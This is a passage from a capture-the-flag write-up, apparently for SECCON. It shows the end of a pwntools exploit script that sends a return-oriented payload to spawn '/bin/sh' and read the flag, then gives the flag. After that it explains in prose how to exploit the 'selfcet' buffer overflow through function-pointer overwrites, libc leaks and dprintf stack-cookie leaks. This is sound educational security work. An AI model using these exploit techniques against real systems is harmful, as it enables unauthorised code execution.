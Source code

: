 ```python
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)

def debug(cmd=''):
    if is_local: gdb.attach(p,cmd)

debug(cmd='''
        set follow-fork-mode parent
        b *main + 46
      ''')

offset = 24
system_address = elf.symbols["system"]

log.info("System plt: " + hex(system_address))
print(p.recvuntilS("Enter something:\n"))


payload = b"/bin/sh\0\0" + b"/bin/p" + b"/bin/pwd\0"
payload += p64(0x000000000040101a)
payload += p64(0x000000000040101a)
payload += p64(0x000000000040101a)
payload += p64(0x000000000040101a)
payload += p64(0x0000000000401169)
p.sendline(payload)
p.sendline("cat /flag*")
p.interactive()
```
`Flag: SECCON{i_miss_you_libc_csu_init_:cry:}`
### 2. selfcet
---
<ins>[**Source**](https://github.com/heckintosh/CTF-Writeups/tree/main/SECCON/selfcet/selfcet)</ins>


We have BOF in a struct that contains a function pointer and arguments for the function. The function pointer and the second argument can be fully controlled, and the first 4 bytes of the first argument can be controlled. However, we can only jump to the start of a valid function due to the ENDBR check before the indirect call.

At the first stage of the exploit, we have to leak the libc address by overwriting the first argument to read@got and partially overwriting the fptr to change err@libc to warn@libc. (1/16 probability) And then, we can call signal(SIGABRT, entrypoint) and trigger the abort signal by overwriting the stack cookie to enable the repetition of the exploit.

Due to the function argument constraints, dprintf(fd, fmt, ...) should be used for the arbitrary read. Since we don't have an address of input data, we have to leak a stack address by calling dprintf with the format string "%s(%s%c%#tx) [%p]" in libc and then leak the stack cookie.
